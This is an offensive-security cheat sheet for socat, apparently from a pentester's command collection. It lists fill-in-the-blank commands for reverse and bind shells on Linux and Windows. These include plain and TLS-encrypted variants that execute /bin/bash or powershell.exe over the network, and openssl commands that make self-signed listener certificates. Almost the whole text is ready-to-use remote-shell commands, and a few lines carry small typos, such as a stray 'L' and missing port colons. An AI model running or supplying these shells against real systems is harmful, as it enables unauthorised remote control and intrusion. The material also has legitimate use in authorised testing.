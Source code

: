 # socat

% socat
#plateform/linux  #target/remote  #cat/PIVOT 


## reverse shell - linux listener
```bash
socat TCP4-LISTEN:<listen_port> STDOUT
```

## reverse shell - linux listener (full TTY)
```bash
socat file:`tty`,raw,echo=0 tcp-listen:<listen_port>
```

## reverse shell - linux binder ( full TTY)
```bash
socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane TCP4:<connect_ip><connect_port>
```

## reverse shell (TLS) - linux listener (full TTY)
openssl req -newkey rsa:2048 -nodes -keyout <cert>.key -x509 -days 1000 -subject '/CN=jubeaz' -out <cert>.crt ;cat <cert>.key <cert>.crt L > <cert>.pem 
```bash
socat file:`tty`,raw,echo=0 openssl-listen:<listen_port>,cert=<cert>.pem,verify=0,fork
```

## reverse shell (TLS) - linux binder
```bash
socat openssl:<connect_ip><connect_port>,verify=0 EXEC:/bin/bash
```

## reverse shell (TLS) - windows binder
```bash
socat openssl:<connect_ip><connect_port>,verify=0 EXEC:'powershell.exe',pipes
```

## bind shell - listener (linux)
```bash
socat TCP4-LISTEN:<listen_port> EXEC:/bin/bash
```

## bind shell - listener (windows)
```bash
socat TCP4-LISTEN:<listen_port> EXEC:'powershell.exe',pipes
```

## bind shell - binder 
```bash
socat - TCP4:<connect_ip>:<connect_port>
```

## bind shell (TLS) - listener (linux)
openssl req -newkey rsa:2048 -nodes -keyout <cert>.key -x509 -days 1000 -subject '/CN=jubeaz' -out <cert>.crt &&
cat <cert>.key <cert>.crt L > <cert>.pem 
```bash
socat OPENSSl-LISTEN:<listen_port>,cert=<cert>.pem,verify=0,fork EXEC:/bin/bash
```

## bind shell (TLS) - listener (windows)
openssl req -newkey rsa:2048 -nodes -keyout <cert>.key -x509 -days 1000 -subject '/CN=jubeaz' -out <cert>.crt &&
cat <cert>.key <cert>.crt L > <cert>.pem 
```bash
socat OPENSSl-LISTEN:<listen_port>,cert=<cert>.pem,verify=0,fork EXEC:'powershell.exe',pipes
```

## bind shell (TLS) - caller 
```bash
socat - OPENSSL:<connect_ip>:<connect_port>,verify=0
```